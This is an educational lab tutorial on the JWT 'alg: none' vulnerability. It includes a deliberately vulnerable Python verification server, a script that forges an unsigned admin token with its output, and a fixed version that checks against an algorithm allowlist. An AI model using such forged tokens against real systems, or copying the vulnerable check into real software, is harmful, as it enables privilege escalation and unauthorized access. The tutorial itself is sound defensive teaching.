

## Introduction

- **What You'll Learn From This Article**: Building on the token concept covered in [How OAuth 2.0 Works](/en/articles/oauth2-guide), you'll reproduce, entirely within a safe lab, the principle behind JWT's (JSON Web Token's) **"alg: none" vulnerability** — which arises when the server unconditionally trusts the "alg" field in a token's own header — and confirm the defense of explicitly fixing the allowed algorithms.
- **Intended Audience**: Readers who've worked with JWT-based authentication/authorization, but can't explain exactly what assumptions JWT verification relies on to stay secure.
- **Important Note**: **This hands-on is educational and defense-focused, meant to strengthen the defenses of a test environment you manage yourself.** Never run this procedure against someone else's live environment without authorization. The test environment used in this article only ever sends traffic to a server you yourself set up, and contains no procedure for attacking a third party's system.
- **Estimated Reading Time**: About 22 minutes, including the hands-on exercise

This article is part of the [Top 1% Series Complete Article Guide](/en/sitemap), and the ninth article in the [Web/API Series](/en/sitemap#series-list). You can follow along with one of the Ubuntu Server environments set up in the [Hands-On Prep Manual](/en/articles/handson-prep-guide).

## Prerequisite Knowledge

- **Token-Based Authentication**: The authentication method covered in [How OAuth 2.0 Works](/en/articles/oauth2-guide) — presenting a token with every request. JWT is one concrete representation format for this kind of token.

## Getting the Big Picture

### JWT's Structure: Three Layers — Header, Payload, Signature

A JWT consists of three parts, separated by periods: the **header**, the **payload**, and the **signature**. Each is Base64-encoded, taking the form `xxxxx.yyyyy.zzzzz`.



**The header contains a field called `alg`, indicating which algorithm (HS256, RS256, and similar) was used to compute the signature.** When the server receives a token, it reads the `alg` value written in that header, and **uses that algorithm** to verify whether the signature is valid.

## Deep Dive Into the Fundamentals

### The "alg: none" Vulnerability: Why Does a Signature-Less Token Ever Get Accepted?

JWT's spec, for historical reasons, defines a special value, `"alg": "none"`, specifying no signature algorithm at all. **This vulnerability arises from an implementation flaw: the server's own verification library unconditionally trusts the `alg` value written in the token's header, and skips signature verification entirely the moment it sees `none` specified.**

An attacker rewrites just the header portion of a legitimate token to `{"alg": "none", "typ": "JWT"}`, leaves the signature portion empty, and sends it. **A server with this vulnerability concludes "`alg` is `none`, so signature verification isn't needed," and trusts the payload's content (a user ID, permissions, and similar) as-is.** Since the attacker can freely rewrite the payload's content, this opens the door to serious privilege escalation — impersonating, say, a user ID that holds administrator privileges.

<details>
<summary>Why Does JWT's Spec Even Have "alg: none" to Begin With?</summary>

"alg: none" is defined in JWT's spec (referenced by RFC 7519, in JWA, RFC 7518) for a limited use case where signature verification genuinely isn't needed — trusted internal system-to-system communication, say. **The real core of the problem isn't that the value "alg: none" exists at all — it's that the server's own verification logic unconditionally trusts a token's header, which is fundamentally part of an untrusted input, as the basis for deciding which algorithm to even use.** This shares the same underlying structure as [HTTP request smuggling](/en/articles/load-balancing-request-smuggling-handson-guide), a problem that likewise arose from unconditionally interpreting contradictory input.

</details>

## Hands-On Steps

### Step 1: Implement Vulnerable Verification Logic (That Unconditionally Trusts alg: none)

**This verification endpoint exists purely to reproduce the vulnerability for educational purposes — run it only within a test environment you yourself manage.** Save it as `vulnerable_verify.py`.

```python
import json
import base64
from http.server import BaseHTTPRequestHandler, HTTPServer

def b64url_decode(s):
    s += '=' * (-len(s) % 4)
    return base64.urlsafe_b64decode(s)

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        token = self.rfile.read(length).decode().strip()
        header_b64, payload_b64, signature_b64 = token.split('.')
        header = json.loads(b64url_decode(header_b64))
        payload = json.loads(b64url_decode(payload_b64))

        # Vulnerable implementation: unconditionally skips signature verification when alg is none
        if header.get('alg') == 'none':
            self._respond(200, payload)
            return

        self._respond(401, {"error": "unsupported algorithm"})

    def _respond(self, code, body):
        self.send_response(code)
        self.end_headers()
        self.wfile.write(json.dumps(body).encode())

HTTPServer(('0.0.0.0', 8000), Handler).serve_forever()
```

```bash
python3 vulnerable_verify.py &
```

### Step 2: Craft an "alg: none" Token Yourself and Send It

Craft a token carrying no legitimate signature at all — just an `{"alg": "none"}` header, and a payload with forged permissions.

```python
import json
import base64

def b64url_encode(data):
    return base64.urlsafe_b64encode(data).decode().rstrip('=')

header = b64url_encode(json.dumps({"alg": "none", "typ": "JWT"}).encode())
payload = b64url_encode(json.dumps({"user": "attacker", "role": "admin"}).encode())

forged_token = f"{header}.{payload}."
print(forged_token)
```

Send this token to the vulnerable verification endpoint.

```bash
TOKEN=$(python3 forge_token.py)
curl -s -X POST http://localhost:8000/ -d "$TOKEN"
```

**Output:**

```json
{"user": "attacker", "role": "admin"}
```

**A token you freely crafted yourself, carrying no signature at all, got accepted as-is, complete with `role: admin` — a permission it should never have had.** This is the exact moment the "alg: none" vulnerability actually works.

### Step 3: Implement a Defended Version That Explicitly Fixes the Allowed Algorithm

**The correct implementation never trusts the `alg` value written in the token's header — the server itself holds an "only these algorithms are allowed" list ahead of time, and unconditionally rejects anything that doesn't match.** Save this as `safe_verify.py`.

```python
import json
import base64
import hmac
import hashlib
from http.server import BaseHTTPRequestHandler, HTTPServer

SECRET = b"server-only-secret-key"
ALLOWED_ALGORITHMS = {"HS256"}  # fix the server's allowed algorithms ahead of time

def b64url_decode(s):
    s += '=' * (-len(s) % 4)
    return base64.urlsafe_b64decode(s)

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        token = self.rfile.read(length).decode().strip()
        header_b64, payload_b64, signature_b64 = token.split('.')
        header = json.loads(b64url_decode(header_b64))

        # Defense: never trust the header's alg — judge against an allowed list instead
        if header.get('alg') not in ALLOWED_ALGORITHMS:
            self.send_response(401)
            self.end_headers()
            self.wfile.write(b'{"error": "unsupported or disallowed algorithm"}')
            return

        expected_sig = base64.urlsafe_b64encode(
            hmac.new(SECRET, f"{header_b64}.{payload_b64}".encode(), hashlib.sha256).digest()
        ).decode().rstrip('=')

        if not hmac.compare_digest(expected_sig, signature_b64):
            self.send_response(401)
            self.end_headers()
            self.wfile.write(b'{"error": "invalid signature"}')
            return

        payload = json.loads(b64url_decode(payload_b64))
        self.send_response(200)
        self.end_headers()
        self.wfile.write(json.dumps(payload).encode())

HTTPServer(('0.0.0.0', 8001), Handler).serve_forever()
```

```bash
python3 safe_verify.py &
curl -s -X POST http://localhost:8001/ -d "$TOKEN"
```

**Output:**

```json
{"error": "unsupported or disallowed algorithm"}
```

**Sending the exact same forged token, this time it was reliably rejected before ever reaching the signature-verification step at all, because the `alg` value didn't appear in the server's pre-fixed allowed list (`{"HS256"}`).** This is the fundamental defense against the "alg: none" vulnerability.

## What a Pro Sees Here (Top 1% Understanding)

### Never Let "What's Inside the Token" Decide the Verification Method Itself

The single most important design principle this hands-on demonstrates is: **"an untrusted input's content (a token's header) must never be used to decide how that same input gets verified in the first place."** If the server lets a token's own `alg` field decide "which algorithm should I use to verify this," an attacker gets to choose the verification method itself, however it suits them. **The correct design fixes the verification method (the allowed algorithms) ahead of time, as a server-side setting, entirely outside the token.** This shares the same underlying idea as the defensive principle covered in [HTTP request smuggling](/en/articles/load-balancing-request-smuggling-handson-guide) — "reject contradictory input itself" — this principle of "never letting input decide its own verification method" comes from the exact same root.

## Common Misconceptions and Pitfalls

- **Misconception 1: "The JWT token format itself has a vulnerability."**
  The JWT spec itself isn't the problem. It's an implementation flaw in the server's verification library, unconditionally trusting the header's `alg` field.
- **Misconception 2: "Using a major JWT library means you don't need to worry about this vulnerability."**
  Modern major libraries address this by default, but an older library version, or an incorrect usage pattern that never explicitly specifies allowed algorithms during verification, still carries the risk.
- **Misconception 3: "A token that carries a signature at all is always safe."**
  This article covered "alg: none," but a related attack with the same underlying structure also exists — an algorithm confusion attack, abusing the public key of an RS256-signed token as an HS256 secret key, for instance. The principle "never trust the header's `alg`" defends against all of these alike.

## Troubleshooting Perspective

1. **A legitimate token gets rejected with an "unsupported or disallowed algorithm" error**: Check whether the algorithm used when the token was issued is correctly included in the verifier's `ALLOWED_ALGORITHMS`.
2. **You're not sure what to check when selecting a JWT library**: Check its documentation for whether it's designed to explicitly specify allowed algorithms during verification, and whether it rejects "alg: none" by default.
3. **The signing key (SECRET) is written directly in the source code**: A production environment needs to use environment variables or a secrets-management service — never include a key directly in source code.

## Summary

- The "alg: none" vulnerability arises when the server unconditionally trusts the `alg` value written in a token's header, skipping signature verification entirely.
- An attacker can freely craft a token carrying no signature at all, with any payload they want (forged permissions, and similar), and get it accepted.
- The correct defense is fixing the server's allowed algorithms ahead of time, and unconditionally rejecting any token header that doesn't match.
- The principle "never let an untrusted input's content decide how that same input gets verified" is a universal idea shared across many security practices beyond JWT.

**Takeaways to Apply Today**
1. When working with JWT, always check whether the verification logic explicitly fixes its allowed algorithms.
2. Apply the lens "is untrusted input deciding its own verification method?" to every other verification implementation and review, not just JWT.

## References

- [RFC 7519 - JSON Web Token (JWT)](https://datatracker.ietf.org/doc/html/rfc7519)
- [Critical vulnerabilities in JSON Web Token libraries | Auth0](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
